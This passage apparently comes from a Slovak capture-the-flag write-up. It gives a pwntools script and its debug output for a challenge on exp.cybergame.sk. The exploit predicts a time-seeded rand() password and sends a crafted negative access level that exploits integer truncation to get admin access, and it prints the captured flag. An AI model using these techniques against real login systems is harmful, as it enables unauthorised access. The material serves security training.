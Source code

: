 ```python
def get_password(seed):
    srand(seed)
    return bytes(rand() % 256 for _ in range(15))

# moj cas minus 1 sekunda
seed = int(time.time())-1 # 1-2 sekundy rozdiel oproti serveru, dal som 1
HOST, PORT = "exp.cybergame.sk", 7003

pwnio = remote(HOST, PORT, timeout=5)
pwnio.recvuntil(b"Please enter your password:")

pwnio.sendline(get_password(seed))          # 15 bajtov + \n

# over, či password prešiel
out = pwnio.recvline(timeout=1)
print(out.decode(errors='ignore'))

if b"Invalid password" not in out:
    pwnio.recvuntil(b"Please enter your access level")
    pwnio.sendline(b"-4294962377")  # 0xFFFFFFFF00001337
    print(pwnio.recvall(timeout=2).decode(errors='ignore'))

pwnio.close()
```

## 6. Výstup zo skriptu

Ak všetko prebehlo správne (u mňa na 4.té pustenie skriptu), dostaneme:

```
[+] Opening connection to exp.cybergame.sk on port 7003: Done
[DEBUG] Received 0x42 bytes:
    b'Welcome to the authentication system!\n'
    b'Please enter your password: '
[DEBUG] Sent 0x10 bytes:
    00000000  fa cb b8 00  61 4c 77 87  40 27 6b 57  64 7e 54 0a  │····│aLw·│@'kW│d~T·│
    00000010
[DEBUG] Received 0x27 bytes:
    b'Please enter your access level (0-10): '

[DEBUG] Sent 0xc bytes:
    b'-4294962377\n'
[+] Receiving all data: Done (116B)
[DEBUG] Received 0x42 bytes:
    b'Access granted!\n'
    b'Welcome to the the admin floor!\n'
    b'Here is the flag:\n'
[DEBUG] Received 0x29 bytes:
    b'SK-CERT{y0u_5h0uld_n07_h4v3_7h15_4cc355}\n'
[*] Closed connection to exp.cybergame.sk port 7003
 (0-10): Access granted!
Welcome to the the admin floor!
Here is the flag:
SK-CERT{y0u_5h0uld_n07_h4v3_7h15_4cc355}
```
